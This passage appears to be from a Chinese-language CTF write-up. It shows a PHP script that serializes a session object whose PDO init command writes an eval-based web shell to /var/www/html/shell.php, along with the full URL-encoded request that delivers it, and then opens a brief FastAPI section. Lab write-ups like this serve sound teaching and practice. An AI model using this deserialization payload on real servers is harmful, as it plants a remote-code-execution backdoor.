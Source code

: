 利用get_pdo来初始化
![](attachments/Pasted%20image%2020240218133537.png)

```php
<?php
session_start();
class mysql_helper{
	public $option = array(
        PDO::MYSQL_ATTR_INIT_COMMAND => "select '<?php eval(\$_REQUEST[1]);phpinfo();?>' into outfile '/var/www/html/shell.php';"
    );
}
class application{
	public $mysql;
	public $debug=true;
	public function __construct(){
        $this->mysql = new mysql_helper();
    }
}

$_SESSION['user'] = new application();
echo urlencode(session_encode());
```

GET `/index.php?action=main&token=user%7CO%3A11%3A%22application%22%3A2%3A%7Bs%3A5%3A%22mysql%22%3BO%3A12%3A%22mysql_helper%22%3A1%3A%7Bs%3A6%3A%22option%22%3Ba%3A1%3A%7Bi%3A1002%3Bs%3A86%3A%22select+%27%3C%3Fphp+eval%28%24_REQUEST%5B1%5D%29%3Bphpinfo%28%29%3B%3F%3E%27+into+outfile+%27%2Fvar%2Fwww%2Fhtml%2Fshell.php%27%3B%22%3B%7D%7Ds%3A5%3A%22debug%22%3Bb%3A1%3B%7D`

## easy_api
#FastAPI
fastapi文档[FastAPI⁤ (tiangolo.com)](https://fastapi.tiangolo.com)
[tiangolo/fastapi: FastAPI framework, high performance, easy to learn, fast to code, ready for production (github.com)](https://github.com/tiangolo/fastapi)

fastapi `openapi.json` 接口描述信息
![](attachments/Pasted%20image%2020240219125922.png)
